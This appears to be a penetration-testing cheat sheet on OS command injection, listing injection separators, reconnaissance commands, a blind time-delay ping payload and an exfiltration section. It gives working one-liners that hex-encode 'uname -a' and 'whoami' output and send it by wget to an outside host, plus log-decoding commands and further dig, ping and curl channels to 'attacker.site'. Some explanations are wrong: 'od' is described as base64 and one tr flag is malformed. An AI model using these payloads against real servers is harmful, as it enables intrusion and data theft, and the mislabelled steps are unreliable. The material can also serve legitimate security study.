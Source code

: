 # CI ( Command Injection )

CI is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application

## ****Ways of injecting OS commands****

```bash
&
&&
|
||
;
%0a 
0x0a
\n
`command`
${command}
```

[more]([https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection))

## Useful Command

- UNIX

```bash
whoami
id
uname -a
ifconfig
netstat -n
ps -ef
```

- windows

```bash
whoami
ver
ipconfig /all
netstat -n
tasklist
```

## ****Blind OS command injection vulnerabilities****

In blind mode the application does not return the output from the command within its HTTP response. 

- Detecting by time delay

```bash
& ping -c 10 127.0.0.1 &
```

## Exfilteration Data

Given we don’t have space and other specific characters in subdomain, we encode the our data and append it to our url then send it by DNS query or other ways.

- Payload:
- `od` encode data to base64

```bash
uname -a | od -A n -t x1 | sed 's/ *//g' | while read x; do wget -q --spider catfather.ir/$x -U "$(whoami)";done
```

- Apache log

First we can tail -f /var/log/apache2/access.log and extract the whoami then following command:

```bash
> awk '/mrcat/' /var/log/apache2/access.log 
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:37 +0400] "HEAD /4a696e75782063617446617468657220 HTTP/1.1" 404 196 "-" "mrcat"
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:38 +0400] "HEAD /352e31382e31362d61726368312d3120 HTTP/1.1" 404 196 "-" "mrcat"
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:38 +0400] "HEAD /233120534d5020505245454d50545f44 HTTP/1.1" 404 196 "-" "mrcat"
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:39 +0400] "HEAD /524e414d4943205765642c2030332041 HTTP/1.1" 404 196 "-" "mrcat"
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:40 +0400] "HEAD /756720323032322031313a32353a3034 HTTP/1.1" 404 196 "-" "mrcat"
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:43 +0400] "HEAD /262b30303030207838365f363420474e HTTP/1.1" 404 196 "-" "mrcat"
xxx.xxx.xxx.xxx - - [22/Nov/2022:12:51:43 +0400] "HEAD /532f4c696e75780a HTTP/1.1" 404 196 "-" "mrcat"

```

- Extract data and decode
- `xxd` decode base64
- `tr` delete newline

```bash
awk '/mrcat/' /var/log/apache2/access.log | awk 'match($0, /HEAD\s\/(.*)\sHTTP/) {print substr($0, RSTART+6, RLENGTH-11)}' | tr -d '\n' | xxd -r -p
```

Another Example

- Payload

```bash
uname -a | od -A n -t x1 | sed 's/ *//g' | while read x; do wget -q --spider catfather.ir/$(whoami) -U "$x";done
```

- Apache log

```bash
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:20 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "-"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:20 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "-"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:21 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "-"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:27 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "4a696e75782063617446617468657220"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:28 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "3b2e31382e31362d61726368312d3120"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:36 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "2a3120534d5020505245454d50545f44"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:37 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "5d4e414d4943205765642c2030332041"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:37 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "7b6720323032322031313a32353a3034"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:38 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "2a2b30303030207838365f363420474e"
xxx.xxx.xxx.xxx - - [22/Nov/2022:13:47:39 +0400] "HEAD /mrcat HTTP/1.1" 404 196 "-" "5a2f4c696e75780a"
```

- Extract & decode

```bash
awk -F '"' '/\/mrcat/ {print $6}' /var/log/apache2/access.log | awk '! /-/' | tr -d n | xxd -r -p
```

Also we can send data via:

- dig a encode.attacker.site
- ping -c 1 encode.attacker.site
- curl [attacker.site](http://attacker.site) -A "echode-data"
